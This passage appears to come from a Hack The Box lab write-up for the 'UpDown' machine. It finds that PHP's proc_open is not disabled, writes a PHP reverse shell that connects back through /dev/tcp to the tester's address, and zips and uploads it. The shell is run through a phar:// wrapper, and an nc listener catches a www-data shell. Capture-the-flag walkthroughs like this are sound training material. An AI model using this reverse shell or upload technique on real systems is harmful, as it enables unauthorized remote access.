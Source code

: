 ```

Please add the following functions in your disable_functions option: 
proc_open
If PHP-FPM is there stream_socket_sendto,stream_socket_client,fsockopen can also be used to be exploit by poisoning the request to the unix socket
```

Cool, looks like the `proc_open` function is still open. Lets try exploiting this.

### Exploitation

Googling around on how to create a reverse shell using `proc_open` I find:

```php
<?php
$descriptorspec = array(
  0 => array('pipe', 'r'), // stdin
  1 => array('pipe', 'w'), // stdout
  2 => array('pipe', 'a') // stderr
);
$cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.216/443 0>&1'";
$process = proc_open($cmd, $descriptorspec, $pipes, null, null);
?>
```

Lets save this as shell.php, zip it, and access it the same way we did phpinfo:

```
┌──(ryan㉿kali)-[~/HTB/UpDown]
└─$ zip shell.test shell.php
  adding: shell.php (deflated 38%)
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/UpDown]
└─$ file shell.test
shell.test: Zip archive data, at least v2.0 to extract, compression method=deflate
```

http://dev.siteisup.htb/?page=phar://uploads/d7277a23a231582b4878ef918bee690c/shell.test/shell

Uploading this and accessing it with phar we catch a shell back as www-data:

```
┌──(ryan㉿kali)-[~/HTB/UpDown]
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.216] from (UNKNOWN) [10.129.227.227] 41974
bash: cannot set terminal process group (894): Inappropriate ioctl for device
bash: no job control in this shell
www-data@updown:/var/www/dev$ whoami
whoami
www-data
www-data@updown:/var/www/dev$ hostname
hostname
updown
```
